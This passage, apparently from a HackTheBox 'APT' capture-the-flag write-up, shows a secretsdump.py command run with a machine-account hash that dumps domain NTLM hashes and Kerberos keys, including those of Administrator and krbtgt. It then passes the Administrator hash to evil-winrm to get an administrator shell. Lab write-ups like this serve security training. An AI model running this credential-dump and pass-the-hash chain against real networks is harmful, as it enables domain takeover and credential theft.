┌──(root💀kali)-[~/impacket/examples]
└─# python3 secretsdump.py -dc-ip apt.htb.local -hashes :d167c3238864b12f5f82feae86a7f798 'htb.local/APT$@apt.htb.local'                        2 ⨯
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c370bddf384a691d811ff3495e8a72e2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:738f00ed06dc528fd7ebb7a010e50849:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
henry.vinson:1105:aad3b435b51404eeaad3b435b51404ee:e53d87d42adaa3ca32bdb34a876cbffb:::
henry.vinson_adm:1106:aad3b435b51404eeaad3b435b51404ee:4cd0db9103ee1cf87834760a34856fef:::
APT$:1001:aad3b435b51404eeaad3b435b51404ee:d167c3238864b12f5f82feae86a7f798:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:72f9fc8f3cd23768be8d37876d459ef09ab591a729924898e5d9b3c14db057e3
Administrator:aes128-cts-hmac-sha1-96:a3b0c1332eee9a89a2aada1bf8fd9413
Administrator:des-cbc-md5:0816d9d052239b8a
krbtgt:aes256-cts-hmac-sha1-96:b63635342a6d3dce76fcbca203f92da46be6cdd99c67eb233d0aaaaaa40914bb
krbtgt:aes128-cts-hmac-sha1-96:7735d98abc187848119416e08936799b
krbtgt:des-cbc-md5:f8c26238c2d976bf
henry.vinson:aes256-cts-hmac-sha1-96:63b23a7fd3df2f0add1e62ef85ea4c6c8dc79bb8d6a430ab3a1ef6994d1a99e2
henry.vinson:aes128-cts-hmac-sha1-96:0a55e9f5b1f7f28aef9b7792124af9af
henry.vinson:des-cbc-md5:73b6f71cae264fad
henry.vinson_adm:aes256-cts-hmac-sha1-96:f2299c6484e5af8e8c81777eaece865d54a499a2446ba2792c1089407425c3f4
henry.vinson_adm:aes128-cts-hmac-sha1-96:3d70c66c8a8635bdf70edf2f6062165b
henry.vinson_adm:des-cbc-md5:5df8682c8c07a179
APT$:aes256-cts-hmac-sha1-96:4c318c89595e1e3f2c608f3df56a091ecedc220be7b263f7269c412325930454
APT$:aes128-cts-hmac-sha1-96:bf1c1795c63ab278384f2ee1169872d9
APT$:des-cbc-md5:76c45245f104a4bf
[*] Cleaning up... 
```

and we use evil-winrm combined with passing the administrator's hash and we should be able to get a root/administrator shell.

```
┌──(root💀kali)-[~/impacket/examples]
└─# evil-winrm -i apt.htb.local -u 'administrator' -H c370bddf384a691d811ff3495e8a72e2                                                          1 ⨯

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```

## Root

Now we have root shell and we can grab the root.txt flag!

```
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop>      dir
